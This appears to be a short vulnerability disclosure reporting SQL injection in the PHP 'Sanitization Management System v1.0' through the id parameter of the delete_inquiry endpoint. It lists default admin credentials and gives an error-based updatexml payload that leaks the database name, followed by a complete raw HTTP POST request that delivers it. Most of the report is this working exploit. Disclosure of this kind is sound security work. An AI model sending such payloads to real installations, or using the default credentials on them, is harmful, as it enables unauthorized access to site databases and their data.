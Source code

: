 **# Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Hujozay

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/classes/Master.php?f=delete_inquiry

Vulnerability location: /php-sms/classes/Master.php?f=delete_inquiry, id

dbname =sms_db,length=6

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /php-sms/classes/Master.php?f=delete_inquiry HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/php-sms/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/195979806-5c00e418-65c9-4ebd-b5a2-0c8becd41256.png)
******
